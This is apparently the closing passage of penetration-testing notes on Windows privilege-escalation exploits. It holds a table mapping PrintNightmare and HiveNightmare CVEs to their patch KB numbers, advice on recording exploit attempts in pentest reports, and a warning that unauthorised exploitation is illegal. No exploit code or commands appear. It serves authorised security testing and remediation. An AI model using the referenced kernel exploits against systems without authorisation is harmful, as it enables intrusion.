| CVE-2021-1675 (PrintNightmare) | KB5004945 / KB5004946 |
| CVE-2021-36934 (HiveNightmare) | KB5005010 |

---

> **Note:** Always document kernel exploit attempts in your pentest report, including CVE, kernel version of target, whether the exploit was executed, and outcome. Even a failed exploit attempt can demonstrate the attack surface. Recommend patching with the specific KB or kernel version in your remediation section.

> **Warning:** Running kernel exploits on systems you do not have explicit written authorisation to test is **illegal** under the Computer Fraud and Abuse Act (US), Computer Misuse Act (UK), and equivalent laws in most jurisdictions. The techniques in this note are for **authorised penetration testing and security research only**.
